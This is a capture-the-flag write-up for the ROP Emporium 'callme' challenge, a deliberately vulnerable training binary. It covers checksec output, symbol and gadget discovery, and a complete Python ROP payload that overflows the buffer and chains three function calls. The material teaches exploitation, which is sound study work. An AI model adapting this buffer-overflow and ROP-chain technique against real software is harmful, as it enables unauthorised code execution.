 # ☎️ callme – ROP Emporium Challenge

> Category: Binary Exploitation – ROP with Multiple Arguments  
> Difficulty: Medium  
> Arch: `amd64`  
> Objective: Call `callme_one()`, `callme_two()`, and `callme_three()` in order, each with the same 3 arguments, to print the flag.

---

## 🛠️ 1. Initial Analysis

From the challenge description:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments:  
> `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, `0xd00df00dd00df00d`

### Binary Protections:

```bash
checksec callme
```

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
Stripped: No
```

✅ Good news:
- No PIE → addresses are fixed.
- No stack canary → we can overflow.
- Not stripped → symbols are visible.

---

## 🔍 2. Locating Symbols

```bash
nm callme
```

We find:

```
0000000000400720 T callme_one
0000000000400740 T callme_two
00000000004006f0 T callme_three
000000000040093c t usefulGadgets
```

We also confirm in Ghidra that all 3 `callme_*` functions are present and require 3 arguments each.

Since the binary is 64-bit, function arguments are passed in registers:

| Argument | Register |
|----------|----------|
| arg1     | `rdi`    |
| arg2     | `rsi`    |
| arg3     | `rdx`    |

---

## 🧱 3. Finding a Gadget

```bash
ROPgadget --binary callme | grep 'pop rdi'
```

Found:

```
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

This gadget is perfect — it lets us set all three required registers before calling each function.

---

## 🧪 4. Building the Payload

Buffer overflow offset: **40 bytes** (32 for buffer + 8 for saved RBP).

We need to perform this sequence 3 times, once for each function.

### Final Payload

```python
payload  = b"A" * 40  # Overflow buffer
# callme_one
payload += p64(0x40093c)  # pop rdi ; pop rsi ; pop rdx ; ret
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400720)

# callme_two
payload += p64(0x40093c)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400740)

# callme_three
payload += p64(0x40093c)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x4006f0)
```

---

## 🎯 5. Result

The program prints the expected output and reveals the flag:

```
ROPE{a_placeholder_32byte_flag!}
```

---

## 🧠 Key Takeaways

- Understand the calling convention for 64-bit binaries.
- Look for gadgets that let you set multiple registers in a single step.
- Chain function calls with repeated gadget + args + function patterns.
